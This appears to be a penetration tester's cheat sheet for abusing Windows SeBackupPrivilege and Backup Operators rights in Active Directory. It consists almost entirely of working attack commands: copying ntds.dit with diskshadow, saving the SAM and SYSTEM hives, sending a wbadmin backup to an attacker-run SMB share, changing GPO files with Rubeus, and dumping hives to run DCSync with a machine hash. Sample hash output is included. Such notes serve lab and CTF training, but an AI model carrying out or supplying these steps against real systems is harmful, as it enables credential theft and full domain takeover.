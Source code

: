 # SeBackupPrivilege

Exploit with `SeBackupPrivilege`.

# Stable Version

```powershell
mkdir C:\mane

echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append    
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append

diskshadow.exe /s c:\mane\diskshadow.txt
```

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Copy-FileSeBackupPrivilege Z:\Windows\NTDS\ntds.dit C:\mane\ntds.dit

reg save HKLM\SYSTEM system
reg save HKLM\SAM sam
```

[DLL Download Link](https://github.com/k4sth4/SeBackupPrivilege)

# More Version

You need to setup NTFS Disk to support remote windows backup.

## 0x0 Pre-setup ntfs

```bash
# Create 2G Disk
dd if=/dev/zero of=ntfs.disk bs=1024M count=2 

# Mount disk
sudo losetup -fP ntfs.disk

# Check Mount 
losetup -a

# format ntfs
sudo mkfs.ntfs /dev/loop0

# Mount 
sudo mount /dev/loop0 smb/

# Check mount
mount | grep smb

```
## 0x1 Install and setup smb

```bash
sudo vim /etc/samba/smb.conf
```

```config

# Comment the following line
# map to guest = bad user

# add config
[mane]
   comment = mane testing
   path = /home/mane/Challenge/smb
   writeable = yes
   guest ok = yes
   read only = no
   valid users = smbuser
   write list = smbuser
   force user = root
```

```bash
# add user
sudo adduser smbuser

# set password
sudo smbpasswd -a smbuser

# restart smb
sudo service smb restart
```

## 0x2 Testing smb share
```bash
$ smbmap -u 'smbuser' -p 'password' -H 127.0.0.1

[+] IP: 127.0.0.1:445   Name: localhost                 Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        mane                                                    READ, WRITE     mane testing
        print$                                                  READ ONLY       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.19.0-Debian)
        smbuser                                                 READ ONLY       Home Directories

```

## 0x3 Mount remote PC

Cache the smb credential

```cmd
net use M: \\10.10.16.14\mane /user:smbuser password

dir M:\
```

## 0x4 Exploit

```
echo "Y" | wbadmin start backup -backuptarget:\\10.10.16.14\mane -include:c:\windows\ntds

# Look at the backup version
wbadmin get versions

# Restore the version
echo "Y" | wbadmin start recovery -version:10/09/2023-23:48 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```

## 0x5 Finally

When Exploit ok, download ntds.dit in `C:\`.

# AD - Change GPO files

You can change `GptTmpl.inf` file, wait GPO Update and got admin, [Details see Here](https://www.inguardians.com/wp-content/uploads/2020/04/BackupOperators-1.pdf).

```powershell
# Clear tickets
klist purge

# ask tgt
rubeus.exe asktgt /domain:manesec.local /user:backup /rc4:<backup$ hash> /ptt

# Read file
robocopy "\\DC\SYSVOL\megabank.local\Policies\{xxxxxxxxxxxxxxx}\MACHINE\Microsoft\Windows NT\SecEdit" "." GptTmpl.inf /b

# Write file
robocopy "." "\\DC\SYSVOL\megabank.local\Policies\{xxxxxxxxxxxxxxx}\MACHINE\Microsoft\Windows NT\SecEdit" GptTmpl.inf /b
```

# AD - BackupOperatorToDA

Use this [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA) but no stable.

This is same as use `reg.py` dump same into `SYSVOL` and use machine hash to dcsync. 

```
$ reg.py 'backup$'@192.168.24.10 -hashes ":xxxxxxxxxxxxxx" backup -o '\\DC\SYSVOL'   
Impacket v0.13.0.dev0+20241127.154729.af51dfd - Copyright Fortra, LLC and its affiliated companies 

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to \\primary\SYSVOL\SAM.save
[*] Saved HKLM\SYSTEM to \\primary\SYSVOL\SYSTEM.save
[*] Saved HKLM\SECURITY to \\primary\SYSVOL\SECURITY.save

$ smbclient.py 'backup$'@192.168.24.10 -hashes :xxxxxxxxxxxxxx
# use SYSVOL
# ls
drw-rw-rw-          0  Wed Dec  4 15:11:40 2024 .
drw-rw-rw-          0  Wed Dec  4 15:11:40 2024 ..
drw-rw-rw-          0  Tue Jan 28 00:49:17 2020 manesec.com
-rw-rw-rw-      49152  Wed Dec  4 15:11:35 2024 SAM.save
-rw-rw-rw-      36864  Wed Dec  4 15:11:40 2024 SECURITY.save
-rw-rw-rw-   14823424  Wed Dec  4 15:11:38 2024 SYSTEM.save

# Dump machine hash
$ secretsdump.py -sam SAM.save -system SYSTEM.save -security SECURITY.save local
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:9be2f2d89df4c2ac986eff89010ade94

# Use machine hash to DCsync
$ secretsdump.py PRIMARY\$@192.168.24.10 -hashes ":9be2f2d89df4c2ac986eff89010ade94"
Administrator:500:aad3b435b51404eeaad3b435b51404ee:xxxxxxxxxxxxxxx:::
```


# Reference

https://rootsecdev.medium.com/abusing-sebackupprivilege-cd5d1a88f992

https://www.youtube.com/watch?v=IfCysW0Od8w&t=2610s

https://www.inguardians.com/wp-content/uploads/2020/04/BackupOperators-1.pdf